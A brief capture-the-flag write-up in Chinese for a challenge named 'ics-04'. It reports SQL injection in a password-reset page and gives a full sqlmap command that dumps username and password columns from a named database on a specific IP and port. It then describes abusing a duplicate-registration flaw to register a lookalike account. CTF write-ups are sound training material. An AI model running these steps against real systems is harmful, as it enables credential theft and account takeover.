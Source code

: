 
# ics-04

* 找回密码功能：存在sql注入
> python sqlmap.py -u "http://111.198.29.45:30842/findpwd.php" --data="username=1" -D cetc004 -T user -C "username,password" --dump

* 利用重复注册账号漏洞，注册账号c3tlwDmIn23，密码123456
